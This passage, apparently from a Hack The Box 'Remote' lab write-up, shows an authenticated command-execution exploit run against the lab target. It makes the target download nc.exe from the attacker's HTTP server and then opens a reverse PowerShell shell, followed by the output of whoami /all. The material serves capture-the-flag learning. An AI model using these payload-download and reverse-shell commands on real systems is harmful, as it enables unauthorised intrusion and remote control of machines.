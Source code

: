 ```text
zweilos@kali:~/htb/remote$ python3 exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c powershell.exe -a '-NoProfile -Command ping 10.10.15.82'

Pinging 10.10.15.82 with 32 bytes of data:
Reply from 10.10.15.82: bytes=32 time=46ms TTL=63
Reply from 10.10.15.82: bytes=32 time=193ms TTL=63
Reply from 10.10.15.82: bytes=32 time=43ms TTL=63
Reply from 10.10.15.82: bytes=32 time=44ms TTL=63

Ping statistics for 10.10.15.82:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 43ms, Maximum = 193ms, Average = 81ms
```

## Initial Foothold

```text
python3 exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c powershell.exe -a '-NoProfile -Command wget 10.10.15.82:8090/nc.exe -OutFile C:\\Windows\\Temp\\n.exe'
```

got a hit on my host

```text
zweilos@kali:~$ python -m SimpleHTTPServer 8090
Serving HTTP on 0.0.0.0 port 8090 ...
10.10.10.180 - - [05/Jul/2020 20:28:42] "GET /nc32.exe HTTP/1.1" 200 -
```

once nc.exe was on the box could now get a shell with:

```text
zweilos@kali:~/htb/remote$ python3 exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c powershell.exe -a 'C:\\Windows\\Temp\\n.exe 10.10.15.82 9990 -e powershell.exe'
```

## Road to User

```text
PS C:\> whoami /all
whoami /all

USER INFORMATION
----------------

User Name                  SID                                                          
========================== =============================================================
iis apppool\defaultapppool S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415


GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
```